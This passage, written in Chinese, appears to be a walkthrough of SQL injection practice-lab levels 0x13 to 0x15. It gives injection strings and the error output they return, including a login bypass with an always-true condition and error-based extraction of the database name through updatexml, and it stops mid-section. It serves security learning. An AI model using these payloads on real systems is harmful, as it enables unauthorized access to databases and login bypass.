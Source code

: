 ## 0x13

尝试注入点

```
username: 1')
password: 123
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '') and password=('123') LIMIT 0,1' at line 1
```

可知sql语句格式。

尝试注入点

```
username: 1
password: 123') or ('1'='1
```

时，只显示成功却无登录用户名密码的回显。可知，只能产生mysql语句的错误的报错，即双查询注入。

由于此处使用布尔判断比较方便，采用updatexml进行注入

```
123') and updatexml(1,concat(0x7e,database(),0x7e),1)#
```

之后操作类似

## 0x14

尝试注入点

```
username:1"
password:1

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" and password="" LIMIT 0,1' at line 1
```

可以看到sql的格式

尝试注入点

```
username:1" and updatexml(1,concat(0x7e,database(),0x7e),1)
password:123

XPATH syntax error: '~security~'
```

之后照着0x13注入即可

## 0x15

根据题目标题“单引号 布尔/时间注入”，尝试注入点
